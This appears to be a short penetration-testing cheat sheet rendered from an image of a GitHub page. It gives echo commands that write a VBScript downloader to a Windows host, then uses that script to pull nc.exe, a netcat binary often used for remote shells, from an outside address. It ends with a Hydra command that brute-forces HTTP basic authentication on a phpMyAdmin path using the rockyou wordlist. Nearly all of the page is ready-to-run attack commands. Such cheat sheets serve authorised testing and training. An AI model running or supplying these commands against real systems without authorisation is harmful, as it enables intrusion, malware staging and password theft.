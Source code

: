 


### Create wget.vbs File 


echo strUrl = WScript\.Arguments\.Item\(0\) \> wget\.vbs
echo StrFile = WScript\.Arguments\.Item\(1\) \>\> wget\.vbs
echo Const HTTPREQUEST\_PROXYSETTING\_DEFAULT = 0 \>\> wget\.vbs
echo Const HTTPREQUEST\_PROXYSETTING\_PRECONFIG = 0 \>\> wget\.vbs
echo Const HTTPREQUEST\_PROXYSETTING\_DIRECT = 1 \>\> wget\.vbs
echo Const HTTPREQUEST\_PROXYSETTING\_PROXY = 2 \>\> wget\.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts \>\> wget\.vbs
echo Err\.Clear \>\> wget\.vbs
echo Set http = Nothing \>\> wget\.vbs
echo Set http = CreateObject\("WinHttp\.WinHttpRequest\.5\.1"\) \>\> wget\.vbs
echo If http Is Nothing Then Set http = CreateObject\("WinHttp\.WinHttpRequest"\) \>\> wget\.vbs
echo If http Is Nothing Then Set http = CreateObject\("MSXML2\.ServerXMLHTTP"\) \>\> wget\.vbs
echo If http Is Nothing Then Set http = CreateObject\("Microsoft\.XMLHTTP"\) \>\> wget\.vbs
echo http\.Open "GET",strURL,False \>\> wget\.vbs
echo http\.Send \>\> wget\.vbs
echo varByteArray = http\.ResponseBody \>\> wget\.vbs
echo Set http = Nothing \>\> wget\.vbs
echo Set fs = CreateObject\("Scripting\.FileSystemObject"\) \>\> wget\.vbs
echo Set ts = fs\.CreateTextFile\(StrFile,True\) \>\> wget\.vbs
echo strData = "" \>\> wget\.vbs
echo strBuffer = "" \>\> wget\.vbs
echo For lngCounter = 0 to UBound\(varByteArray\) \>\> wget\.vbs
echo ts\.Write Chr\(255 And Ascb\(Midb\(varByteArray,lngCounter \+ 1,1\)\)\) \>\> wget\.vbs
echo Next \>\> wget\.vbs
echo ts\.Close \>\> wget\.vbs


\-\-\- 




### Download Files 


cscript wget\.vbs http://192\.168\.0\.1/nc\.exe nc\.exe

## Hydra 




\-\-\- 




### HTTP Basic Authentication 


hydra \-l admin \-V \-P /usr/share/wordlists/rockyou\.txt \-s 80 \-f 192\.168\.0\.1 http\-get /phpmyadmin/ \-t 15
